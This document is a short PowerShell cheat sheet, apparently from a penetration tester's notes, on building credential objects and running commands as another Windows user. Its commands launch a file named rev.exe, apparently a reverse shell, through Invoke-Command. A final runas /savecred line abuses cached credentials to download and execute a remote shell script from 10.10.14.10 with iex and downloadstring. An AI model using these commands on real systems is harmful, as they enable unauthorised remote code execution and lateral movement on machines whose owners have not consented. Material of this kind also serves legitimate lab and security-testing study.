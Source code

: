 ```yaml
---
title: "Runas"
date: 2024-7-10
tags: ["powershell", "cred object", "Windows", "runas"]
---
```


---
### Runas (with cred object)

#### Create cred object (Method #1)

```powershell
$username = "<DOMAIN>\<USER>"
```

```powershell
$password = "<PASSWORD>"
```

```powershell
$secstr = New-Object -TypeName System.Security.SecureString
```

```powershell
$password.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}
```

```powershell
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $secstr
```

#### Create cred object (Method #2)

```powershell
$password = ConvertTo-SecureString "<PASSWORD>" -AsPlainText -Force
```

```powershell
$cred = New-Object System.Management.Automation.PSCredential("<DOMAIN>\<USER>", $password)
```

#### Run Commnad

```powershell
Invoke-Command -ScriptBlock { C:\ProgramData\rev.exe } -Credential $cred -Computer localhost
```

```powershell
# If error, try
Invoke-Command -ScriptBlock { C:\ProgramData\rev.exe } -Credential $cred -Computer localhost -auth credssp
```

```powershell
# Invoke command with config
Invoke-Command -ScriptBlock { C:\ProgramData\rev.exe } -Credential $cred -Computer localhost -ConfigurationName config_name
```

#### Create a new PS session

```powershell
new-pssession -computername . -credential $cred
```

```powershell
# Switch to new session
enter-pssession 1
```

### Runas (with cache creds)

#### Check cache creds

```powershell
cmdkey /list
```

#### Run Command

```powershell
# e.g. Upload and run a shell
runas /user:<DOMAIN>\<USER> /savecred "powershell iex(new-object net.webclient).downloadstring('http://10.10.14.10/shell.ps1')"
```

<br>
